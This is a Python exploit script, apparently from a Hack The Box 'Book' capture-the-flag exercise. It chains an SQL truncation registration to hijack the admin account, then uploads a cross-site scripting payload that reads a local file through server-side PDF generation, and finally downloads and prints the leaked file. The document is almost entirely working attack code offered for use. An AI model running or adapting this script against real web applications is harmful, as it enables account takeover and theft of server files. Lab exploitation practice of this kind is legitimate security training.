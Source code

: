 ```py
'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# First let's trigger the sql truncation
def adminBook(rhost):
    url = "http://%s:80/index.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"name": "0x4rt3mis", "email": "admin@book.htb      .", "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies, allow_redirects=True)

# Now let's login as admin@book.htb
def loginAdminUpload(rhost,file):
    url = "http://%s:80/index.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"email": "admin@book.htb", "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    #Once logged in, let's upload the malicious payload
    os.system('echo "aa" > 1.html')
    url = 'http://%s:80/collections.php' %rhost
    data = {'title':'<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file://%s");x.send();</script>' %file, 'author':'0x4rt3mis', 'Upload':'Upload'}
    files = {'Upload':('1.html', open('1.jpg', 'rb'))}
    r.post(url, data=data, files=files, proxies=proxies)
    os.system('rm 1.html')

def readFileLFI(rhost):
    # Login on admin panel
    url = "http://%s:80/admin/" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"email": "admin@book.htb", "password": "123456"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    # Now, let's donwload and parse the pdf
    url = "http://%s/admin/collections.php?type=collections" %rhost
    resp = r.get(url, cookies=r.cookies, proxies=proxies)
    pdf = parser.from_buffer(resp.content)
    print(pdf['content'].strip())

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-f', '--file', help='File to be read', required=False)
    args = parser.parse_args()

    rhost = args.target
    file = args.file

    '''Here we call the functions'''
    # Let's trigger the SQL Truncation
    adminBook(rhost)
    # Let's upload the malicious file
    loginAdminUpload(rhost,file)
    # Let's read the file
    readFileLFI(rhost)

if __name__ == '__main__':
    main()
```
